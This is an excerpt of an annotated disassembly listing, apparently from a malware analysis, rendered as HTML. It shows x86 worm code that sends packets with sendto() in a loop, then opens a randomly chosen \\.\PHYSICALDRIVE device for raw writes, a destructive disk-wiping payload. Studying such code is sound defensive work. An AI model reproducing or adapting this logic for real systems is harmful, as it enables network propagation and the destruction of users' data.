 <span style="color:maroon">seg000:000001F2 </span>FF D3                             <span style="color:navy">call    ebx</span>             ; sendto()
<span style="color:maroon">seg000:000001F4 </span>83 C4 10                          <span style="color:navy">add     esp</span><span style="color:navy">, </span><span style="color:green">10h</span>
<span style="color:maroon">seg000:000001F7 </span>59                                <span style="color:navy">pop     ecx</span>
<span style="color:maroon">seg000:000001F8 </span>E2 98                             <span style="color:navy">loop    loc_192</span>
<span style="color:maroon">seg000:000001FA </span>31 C0                             <span style="color:navy">xor     eax</span><span style="color:navy">, eax</span>
<span style="color:maroon">seg000:000001FC </span>2D 03 BC FC FF                    <span style="color:navy">sub     eax</span><span style="color:navy">, </span><span style="color:green">0FFFCBC03h</span>
<span style="color:maroon">seg000:00000201 </span>F7 E5                             <span style="color:navy">mul     ebp</span>
<span style="color:maroon">seg000:00000203 </span>2D 3D 61 D9 FF                    <span style="color:navy">sub     eax</span><span style="color:navy">, </span><span style="color:green">0FFD9613Dh</span>
<span style="color:maroon">seg000:00000208 </span>89 C5                             <span style="color:navy">mov     ebp</span><span style="color:navy">, eax</span>
<span style="color:maroon">seg000:0000020A </span>C1 E8 10                          <span style="color:navy">shr     eax</span><span style="color:navy">, </span><span style="color:green">10h</span>
<span style="color:maroon">seg000:0000020D </span>80 E4 07                          <span style="color:navy">and     ah</span><span style="color:navy">, </span><span style="color:green">7</span>
<span style="color:maroon">seg000:00000210 </span>80 CC 30                          <span style="color:navy">or      ah</span><span style="color:navy">, </span><span style="color:green">30h</span>         ; 0x30 | (rand() &amp; 7)
<span style="color:maroon">seg000:00000213 </span>B0 45                             <span style="color:navy">mov     al</span><span style="color:navy">, </span><span style="color:#ff8000">45h</span> <span style="color:gray">; 'E'   </span>; E
<span style="color:maroon">seg000:00000215 </span>50                                <span style="color:navy">push    eax</span>
<span style="color:maroon">seg000:00000216 </span>68 44 52 49 56                    <span style="color:navy">push    </span><span style="color:green">56495244h</span>       ; DRIV
<span style="color:maroon">seg000:0000021B </span>68 49 43 41 4C                    <span style="color:navy">push    </span><span style="color:green">4C414349h</span>       ; ICAL
<span style="color:maroon">seg000:00000220 </span>68 50 48 59 53                    <span style="color:navy">push    </span><span style="color:green">53594850h</span>       ; PHYS
<span style="color:maroon">seg000:00000225 </span>68 5C 5C 2E 5C                    <span style="color:navy">push    </span><span style="color:green">5C2E5C5Ch</span>       ; \\.\
<span style="color:maroon">seg000:00000225                                                           </span>; we get here \\.\PHYSICALDRIVE0 to \\.\PHYSICALDRIVE7
<span style="color:maroon">seg000:0000022A </span>89 E0                             <span style="color:navy">mov     eax</span><span style="color:navy">, esp</span>
<span style="color:maroon">seg000:0000022C </span>31 C9                             <span style="color:navy">xor     ecx</span><span style="color:navy">, ecx</span>
<span style="color:maroon">seg000:0000022E </span>51                                <span style="color:navy">push    ecx</span>             ; NULL
<span style="color:maroon">seg000:0000022F </span>B2 20                             <span style="color:navy">mov     dl</span><span style="color:navy">, </span><span style="color:#ff8000">20h</span> <span style="color:gray">; ' '
</span><span style="color:maroon">seg000:00000231 </span>C1 E2 18                          <span style="color:navy">shl     edx</span><span style="color:navy">, </span><span style="color:green">18h</span>
<span style="color:maroon">seg000:00000234 </span>52                                <span style="color:navy">push    edx</span>             ; FILE_FLAG_NO_BUFFERING (0x20000000)
<span style="color:maroon">seg000:00000235 </span>6A 03                             <span style="color:navy">push    </span><span style="color:green">3</span>               ; OPEN_EXISTING
<span style="color:maroon">seg000:00000237 </span>51                                <span style="color:navy">push    ecx</span>             ; NULL
<span style="color:maroon">seg000:00000238 </span>6A 03                             <span style="color:navy">push    </span><span style="color:green">3</span>               ; FILE_SHARE_READ | FILE_SHARE_WRITE